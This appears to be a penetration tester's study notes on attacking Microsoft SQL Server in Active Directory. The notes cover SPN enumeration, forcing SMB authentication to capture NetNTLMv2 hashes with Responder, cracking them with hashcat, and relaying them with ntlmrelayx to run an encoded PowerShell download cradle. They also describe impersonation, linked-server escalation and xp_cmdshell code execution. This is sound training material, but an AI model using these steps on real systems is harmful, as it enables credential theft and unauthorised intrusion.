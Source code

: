 ## Microsoft SQL attacks

MSSQL in AD have SPN. To query the DC:
[[Active Directory]]
#AD #SPN #cmd
``` cmd
setspn -T corp1 -Q MSSQLSvc/*
```

#useful-script #ps1
```powershell
. .\GetUserSPNs.ps1
```

### Authentication in MSSQL

In AD this is handled by Kerberos, and the mapping between the user and dbo is done. If no mapping, the user will be guest. To login mapped to sa will have sysadmin role. 

Domain Users are member of Builtin Users group which has access by default.

For code refer to the mssql-exp VS project.

### UNC Path Injection 

The idea is to force the MSSQL to connect to our SMB share so we capture NETNTLMv2 hash for cracking, later we will also learn to relay the hash.
We must provide the UNC path with IP, not hostname as Windows would automatically switch from Kerberos to NetNTLM. 

Run the mssql-exp binary, but start the responder first on Kali to get the hash.
#NetNTLM #responder
``` bash
sudo responder -I tun0
```

For cracking.
#hashcat #cracking
``` bash
sudo hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```


### Relay NetNTLM hash

To not crack the hash we can relay it - the password may be strong. If the user whose hash we relay is local admin, we can get code exec. It is only possible if SMB signing not enabled (enabled by default on DC, but not on the standard Windows Servers).

To start the relay attack we give the encoded ps1 with download cradle:
#encoding #impacket
``` bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc <encoded_download_cradle>'
```

### MSSQL Priv escalation

The goal is to obtain access to the user who is sysadmin in MSSQL - we can use the AD priv esc. We can also do impersonation with the usage of EXECUTE AS - only certain users can use impersonation; not every user has it, there must be misconfig. We can Impersonate on user and login (EXECUTE AS USER/LOGIN). We can enumerate which account allows impersonation, but we cannot enumerate who can impersonate them.
For execute as USER we must do it on the msdb as it is TRUSTWORTHY with user dbo as he has sa.

#### Linked SQL Servers for Priv Escalation

MSSQL can be linked together. When the link is create the admin specifies execution context - it can be dynamic based on the current context, but admins can choose specific SQL login, like with the impersonation (admin misconfig). The stored procedure sp_linkedserver can be used for enum. Then, we must enum which context is running on the Linked MSSQL - if sa we can execute code, if not we can try to repeat the enum with Linked MSSQL servers.
When we enum for security context using the openquery it is important to escape double quotes with backslash. In the EXEC AT synatax, it is important to escape single quote, it is escaped by the second single quote. 
The **RECONFIGURE** on the Linked MSSQL server requires to have the **RPC Outbound ** (it is not set by defaut but it might eb set), if we are in sysadmin role we can enable RPC Out with the **sp_serveroption** stored procedure. 

Links are **not bidirectonal** , but there can be connection back home, so if we want to come home or move across different links, we must always perform the same steps.
1. Enum Linked MSSQL Servers
2. Enum the security context of this Link
3. If sa over link we can get Code Execution, if not we can repeat. 


### Getting code execution 

To obtain code execution we can use: xp_cmdshell, sp_oacreate (Ole Automation Procedure) or through loading custom assembly. Refer to the mssql-exp in code section for implementation.

For Custom Assemblies we can use the CREATE ASSEMBLY procedure, but that also requires TRUSTWORTHY db. We import managed dll as an object and execute. To hex encode assembly we use the follow:
[[Oneliners - ps1#^6217c2]]






